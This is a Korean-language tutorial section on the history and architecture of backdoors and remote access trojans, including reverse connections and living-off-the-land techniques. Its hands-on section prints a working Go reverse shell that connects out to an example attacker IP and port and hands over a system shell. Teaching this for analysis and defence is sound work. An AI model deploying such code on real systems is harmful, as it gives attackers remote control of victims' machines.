


# 70630.1 백도어 및 RAT 진화

**백도어(Backdoor)**와 **RAT(Remote Access Trojan)**는 공격자가 감염된 시스템에 지속적으로 접근하고 제어하기 위해 설치하는 가장 핵심적인 악성코드 유형입니다.  본 섹션에서는 이들의 정의와 역사적 진화 과정을 심층적으로 다룹니다.

## 1. 백도어와 RAT의 정의

- **백도어 (Backdoor)**: 시스템 보안 인증을 우회하여 접근할 수 있도록 만들어진 숨겨진 통로입니다. 주로 개발 단계의 편의를 위해 만들어졌다가 방치되거나, 공격자에 의해 의도적으로 설치됩니다.
- **RAT (Remote Access Trojan)**: 단순한 접근 통로를 넘어, GUI 기반의 관리 화면을 통해 원격에서 피해자 시스템의 마이크, 카메라, 파일 시스템, 프로세스 등을 완전히 제어할 수 있는 도구입니다.

## 2. RAT의 역사적 진화 과정

공격 기술의 발전에 따라 RAT의 통신 방식과 은닉 기법도 진화해 왔습니다.



## 3. 백도어의 주요 동작 아키텍처

현대적인 백도어는 탐지를 피하기 위해 직접 연결(Bind Shell) 대신 **리버스 커넥션(Reverse Connection)** 방식을 사용합니다.



## 4. 실습: 기초적인 백도어 통신 메커니즘 (Go)

Go 언어를 사용하여 리버스 쉘의 기초적인 형태를 구현해 봅니다. (학습 및 분석 목적으로만 활용하십시오.)

**[Go 예제: 간단한 Reverse Shell 컨셉]**

```go
package main

import (
 "net"
 "os/exec"
 "runtime"
)

func reverseShell(ip string, port string) {
 conn, err := net.Dial("tcp", ip+":"+port)
 if err != nil {
  return
 }
 defer conn.Close()

 var cmd *exec.Cmd
 if runtime.GOOS == "windows" {
  cmd = exec.Command("cmd.exe")
 } else {
  cmd = exec.Command("/bin/sh")
 }

 // 표준 입출력을 소켓 연결로 바인딩
 cmd.Stdin = conn
 cmd.Stdout = conn
 cmd.Stderr = conn

 cmd.Run()
}

func main() {
 // 공격자 IP와 포트 (예시)
 // reverseShell("192.168.1.100", "4444")
}
```

## 5. 최신 위협 동향: "Living Off The Land"

최근의 백도어는 자체 악성 코드를 최소화하고 시스템에 내장된 정상 도구(PowerShell, WMI, BITSAdmin)를 이용하는 **LotL(Living off the Land)** 전략을 취합니다. 이는 파일 기반 탐지 솔루션을 우회하는 데 매우 효과적입니다.

## 6. 결론

백도어와 RAT는 단순한 도구를 넘어 공격자의 거점이 되는 전략적 자산입니다. 이들의 진화 과정은 항상 보안 솔루션의 탐지 로직을 앞지르려 하며, 분석가는 통신 패턴(Beaconing)과 권한 상승, 지속성 유지 기법을 통합적으로 이해해야 합니다.
